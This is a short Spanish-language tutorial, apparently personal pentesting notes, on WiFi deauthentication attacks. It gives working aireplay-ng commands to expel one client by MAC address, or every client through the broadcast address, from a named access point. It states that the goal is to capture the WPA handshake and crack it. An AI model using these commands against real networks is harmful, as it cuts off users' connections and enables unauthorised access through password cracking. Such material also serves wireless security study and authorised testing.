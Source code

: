 # Ataque de Deautenticación

Este ataque consta en hacerle creer al router que un cliente que estaba conectado se ha desconectado, haciendo que el cliente pierda la conexión con la red, esto nos sirve porque el cliente reintentara conectarse a la red, emitiendo el handshake de la red y así nosotros podemos capturarlo para luego crackearlo

# Ataque de Deautenticación dirigido

El Ataque de Deautenticación dirigido se basa en expulsar a un solo cliente del punto de acceso seleccionado, esto lo podemos hacer utilizando la herramienta `aireplay-ng`

`aireplay-ng --deauth 10 -e Telecentro-36e7 -c 2E:9E:D3:7B:4A:00 wlan0mon`

- --deauth: Indicamos que queremos hacer un ataque de Deautenticación
- 10: Son la cantidad de paquetes de Deautenticación que queremos emitir, si no ponemos nada el ataque será infinito hasta que lo pausemos nosotros
- -e: Indicamos el nombre del punto de acceso
- -c: Con este parámetro indicamos el cliente que queremos expulsar, debemos poner la mac del cliente
- wlan0mon: Nuestra tarjeta de red

# Ataque de Deautenticación global

También lo que podemos hacer es hacer un ataque de Deautenticación de manera global, es decir, expulsar a todos los que estén conectados a la red

Para esto tenemos que hacer uso de la Broadcast MAC Address

`aireplay-ng --deauth 10 -e Telecentro-36e7 -c FF:FF:FF:FF:FF:FF wlan0mon`

